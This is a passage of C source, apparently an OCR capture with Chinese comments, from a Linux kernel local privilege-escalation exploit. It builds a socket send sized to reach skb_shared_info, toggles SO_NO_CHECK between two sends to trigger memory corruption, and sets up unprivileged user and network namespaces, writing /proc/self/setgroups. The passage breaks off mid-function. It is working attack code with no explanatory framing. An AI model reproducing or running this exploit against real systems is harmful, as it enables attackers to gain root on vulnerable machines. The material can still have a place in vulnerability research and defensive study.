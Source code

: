 ```c

	if (connect(s, (void*)&addr, sizeof(addr))) {
		perror("[-] connect()");
		exit(EXIT_FAILURE);
	}
// 第1次send
	int size = SHINFO_OFFSET + sizeof(struct skb_shared_info);
	int rv = send(s, buffer, size, MSG_MORE);
	if (rv != size) {
		perror("[-] send()");
		exit(EXIT_FAILURE);
	}
// 修改 SO_NO_CHECK
	int val = 1;
	rv = setsockopt(s, SOL_SOCKET, SO_NO_CHECK, &val, sizeof(val));		// change SO_NO_CHECK
	if (rv != 0) {
		perror("[-] setsockopt(SO_NO_CHECK)");
		exit(EXIT_FAILURE);
	}
// 第2次send
	send(s, buffer, 1, 0);

	close(s);
}

#define CHUNK_SIZE 1024
static bool write_file(const char* file, const char* what, ...) {
	char buf[1024];
	va_list args;
	va_start(args, what);
	vsnprintf(buf, sizeof(buf), what, args);
	va_end(args);
	buf[sizeof(buf) - 1] = 0;
	int len = strlen(buf);

	int fd = open(file, O_WRONLY | O_CLOEXEC);
	if (fd == -1)
		return false;
	if (write(fd, buf, len) != len) {
		close(fd);
		return false;
	}
	close(fd);
	return true;
}

void setup_sandbox() {
	int real_uid = getuid();
	int real_gid = getgid();

	if (unshare(CLONE_NEWUSER) != 0) {
		printf("[!] unprivileged user namespaces are not available\n");
		perror("[-] unshare(CLONE_NEWUSER)");
		exit(EXIT_FAILURE);
	}
	if (unshare(CLONE_NEWNET) != 0) {
		perror("[-] unshare(CLONE_NEWUSER)");
		exit(EXIT_FAILURE);
	}

	if (!write_file("/proc/self/setgroups", "deny")) {
		perror("[-] write_file(/proc/self/set_groups)");
		exit(EXIT_FAILURE);
```